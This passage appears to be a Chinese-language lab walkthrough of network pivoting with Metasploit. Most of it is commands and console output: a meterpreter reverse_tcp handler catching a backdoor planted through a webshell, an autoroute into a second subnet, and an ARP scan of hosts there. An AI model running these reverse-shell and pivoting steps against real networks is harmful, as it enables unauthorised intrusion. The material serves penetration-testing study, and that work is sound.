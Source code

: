 **0x01 Step1**



Attacker在RD上通过webshell运行了一个reverse类型的后门,然后操作如下:

```
msf &gt; use exploit/multi/handler 
msf exploit(handler) &gt; set payload windows/meterpreter/reverse_tcp
payload =&gt; windows/meterpreter/reverse_tcp
msf exploit(handler) &gt; set LHOST 172.16.0.20 
LHOST =&gt; 172.16.0.20msf exploit(handler) &gt; set LPORT 1234
LPORT =&gt; 1234msf exploit(handler) &gt; run
[*] Started reverse TCP handler on 172.16.0.20:1234 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 172.16.0.11
[*] Meterpreter session 2 opened (172.16.0.20:1234 -&gt; 172.16.0.11:49162)meterpreter &gt; ifconfig
Interface  1============
Name         : Software Loopback Interface 1Hardware MAC : 00:00:00:00:00:00MTU          : 4294967295IPv4 Address : 127.0.0.1IPv4 Netmask : 255.0.0.0IPv6 Address : ::1IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11============
Name         : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:e1:3f:af
MTU          : 1500IPv4 Address : 172.16.0.11IPv4 Netmask : 255.255.255.0Interface 19============
Name         : Intel(R) PRO/1000 MT Desktop Adapter #2Hardware MAC : 08:00:27:7f:3c:fe
MTU          : 1500IPv4 Address : 7.7.7.11IPv4 Netmask : 255.255.255.0
```

**<br>**

**0x02 Step2**



发现RD有两块网卡后,想办法渗透另一个网段7.7.7.0,首先要添加路由[不添加路由也可以直接用meterpreter shell中的模块访问 到7.7.7.x网段,添加路由的目的是为了使得msf模块可以访问到7.7.7.x网段],meterpreter shell可以访问到7.7.7.x网段,msf 中的模块不能访问到7.7.7.x网段,msf中的模块所处的ip是攻击者的ip,meterpreter shell所处的ip是RD的ip.在meterpreter中 添加路由的目的是为了给msf模块作代理,也即给Attacker作代理,但是只能给Attacker的msf模块作代理,要想给Attacker的其他 应用程序作代理,则需要在meterpreter添加路由后再运行msf的开启sock4的模块,然后再用proxychains来设置Attacker的其他 应用程序的代理为msf的开启sock4代理模块中设置的代理入口。

操作如下:

```
meterpreter &gt; run autoroute -s 7.7.7.0/24[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11[*] Use the -p option to list all active routes
meterpreter &gt; run autoroute -p
Active Routing Table
====================
 Subnet Netmask Gateway
 ------ ------- ------- 7.7.7.0 255.255.255.0 Session 2meterpreter &gt;
```

然后开始扫描7.7.7.0网段,操作如下:

```
meterpreter &gt; run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24[*] Running module against DISCORDIA
[*] ARP Scanning 7.7.7.0/24[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe (CADMUS COMPUTER SYSTEMS)
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 (CADMUS CIMPUTER SYSTEMS)
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 (CADMUS COMPUTER SYSTEMS)
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5 (CADMUS COMPUTER SYSTEMS)
meterpreter &gt;
```
